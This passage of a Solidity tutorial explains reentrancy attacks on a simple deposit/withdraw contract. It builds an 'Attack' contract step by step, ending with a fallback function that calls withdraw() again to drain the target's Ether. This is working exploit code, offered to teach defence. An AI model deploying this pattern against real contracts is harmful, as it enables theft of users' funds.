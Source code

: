 If we run this right now though, we'll say "It looks like as we expected."We deploy the contract, copy the address that deployed the contract, we see the balance is 0.We'll deposit 5 Ether and hit balances of that address, we see it's updated to 5 Ether.Then we'll hit withdraw and the balances of that address goes back to 0 and it seems like it's working as intended.

Now there's actually a way we can attack withdraw function to drain all the money in the contract and this is what's know as reentrancy attack.The two most common kinds of attacks in the space are going to be reentrancy attacks which is what we're talking about here and oracle attacks which usually only happen when a protocol doesn't use a decentralized Oracle.Lucky for us we've been using decentralized orcale(Chainlink) from the get go so that we're protected.It's these two types of attacks that often result in the most amount of money lost.There's a lederboard called [rekt.news](https://rekt.news/leaderboard/) which keeps track of many of the top attacks that have ever happened in the defi space.With many of them if you go into the retrospective are either an Oracle attack or a reentracy attack.

You might be saying "We're just talking about NFTs and this doesn't have anything to do with NFTs."We'll get there don't worry.Below we're going to create a new contract called "Attack".We'll grab the "ReentrantVulnerable" and create a variable of it.

```solidity
contract Attack {
    ReentrantVulnerable public immutable i_reentrantVulnerable;
}
```

Then we'll set the address of the global variable in the constructor.

```solidity
contract Attack {
    ReentrantVulnerable public immutable i_reentrantVulnerable;

    constructor(address _reentrantVulnerable){
        i_reentrantVulnerable = ReentrantVulnerable(_reentrantVulnerable);
    }
}
```

We're going to create a function called attack and it's this function that's going to call withdraw in a malicious way.

```solidity
function attack() external payable {
        i_reentrantVulnerable.deposit{value: 1 ether}();
        i_reentrantVulnerable.withdraw();
    }
```

Now at first glance this seems pretty harmless but remember when we call `msg.sender.call` like in above contract, we're calling back to the `"Attack"` contract.When we call the Attack contract, `is there a way to execute any other code ?`

Well there is.Remember how we learned about fallback functions.If we put a fallback function or receive function in here, when the Contract runs `msg.sender.call` sends the contract Ether, we can have it trigger our fallback function to call withdraw again so that we'll send our contract more Ether than it's do before we update the balance i.e `balances[msg.sender] = 0`.

```solidity
fallback() external payable {
        if(address(i_reentrantVulnerable).balance >= 1 ether){
            i_reentrantVulnerable.withdraw();
        }
    }
```
